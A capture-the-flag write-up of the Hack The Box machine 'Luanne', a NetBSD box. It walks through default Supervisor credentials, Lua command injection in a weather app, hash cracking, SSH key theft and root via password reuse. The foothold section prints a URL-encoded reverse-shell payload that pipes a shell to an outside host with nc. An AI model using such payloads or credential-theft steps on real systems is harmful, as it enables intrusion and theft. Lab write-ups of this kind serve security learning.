





<div style="text-align:center">Write-up of Luanne - Difficulty : Easy </div>

<!--more-->

>Rest satisfied with doing well, and leave others to talk of you as they will.  
>  
> -Pythagoras  

## 1. Overview

Luanne is a NetBSD box running a vulnerable lua web app.  
The app is also being served out of a user's home directory.  
A backup on the computer contains the root password for the box.  


## 2. Recon

### 2.1 Nmap
As always we start off running a port scan with nmap and we see that ports 22, 80, and 9001 are open.

``` bash 
 nmap -sC -sV -p- -T4 10.129.120.184
```



  
Looks like nmap found a disallowed site at /weather on the robots.txt file as well as Supervisor running on port 9001.

### 2.2 Websites
#### 2.2.1 Supervisor
Next we'll go check out port 10.129.120.184:9001 in a browser and we get prompted for a username/password.  
After doing some research into Supervisor default configs we can find that the default credentials of **user:123** will allow us to authenticate to the website.  


If we go to processes we can see something running from **r.michaels** home directory. It appears to be that weather site that nmap found earlier.  


#### 2.2.2 Weather

After that we head on over to 10.129.120.184/weather and it doesn't resolve to anything.  
If we fuzz for web directories we find **/forecast**.  
  

If we browse to this site we are greeted with a message that no city is specificed and we should use "city=list" to list all available options.  Upon doing so by adding **?city=list** to the end of our request we can choose any city and get the weather forecast for it.

Now that we know how to get the script to work we google for lua rce exploits and find a usefule article by [SyHunt](https://www.syhunt.com/pt/index.php?n=Articles.LuaVulnerabilities).

## 3. Foothold

Upon reading the article we find that **os.execute** might allow us to have our code executed on the remote system. After some simple tests we wind up with our reverse shell code that we need to URL encode and pass through the browser. Before sending it we start our reverse shell with **nc -lvnp 3001**.
``` http
http://10.129.120.184/weather/forecast?city=London%27%29%3Bos.execute%28%22rm%20%20%2Ftmp%2Ftest%3Bmkfifo%20%2Ftmp%2Ftest%3Bcat%20%2Ftmp%2Ftest%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.88%203001%20%3E%2Ftmp%2Ftest%22%29--)
```


With that we wind up with a shell as **_httpd**.

## 4. User

Since there's a website running the first thing to check is **/var/www** and luckily for us there's a hidden file **.htpasswd** that contains credentials for **webapi_user**.  

  

After we copy that hash to our box we can run hashcat against it.  

  

We can use these credentials to authenticate to the server on port 3001 and steal r.michales ssh key.  

```
curl --user webapi_user:iamthebest localhost:3001/~r.michaels/id_rsa
```


There is a backups folder in our user's home directory where we find **devel_backup-2020-09-16.tar.gz.enc**. If we google NetBSD .enc files it brings us to the [netpgp manual pages](https://man.netbsd.org/netpgp.1).  
With the help of the man pages we can decrypt this backup and look at it.  
```
netpgp --decrypt /home/r.michaels/backups/devel_backup-2020-09-16.tar.gz.enc --output /tmp/test.tar.gz
gunzip /tmp/test/tar.gz
tar -xvf /tmp/test.tar
```
  

Just like how we found the previous webapi-user password we can find the backup password in **.htpasswd**.

  

Following the same steps as before we can crack it with hashcat.  


## 5. Root

If you're familiar with NetBSD there is the **doas** command which acts as an more easily configurable version of **sudo**.  Since sudo is not a known command on this box if we try to run **doas sh** we are prompted for a password.  As with all pentests you should always re-use passwords you find since passwords are commonly used for multiple accounts, against security guidance. Upon entering the password we just found we are granted a shell as root.  


## Conclusion

1. Host web apps from the proper directories. 
2. Ensure your backups are properly protected or stored off system.
3. Do not re-use passwords for accounts.

<br>
<br>
<br>

<div style="text-align:center"><a href="https://www.hackthebox.eu/home/users/profile/190484"></a></div>
<div style="text-align:center">If this write-up was helpful consider leaving some respect on my HTB profile.</div>
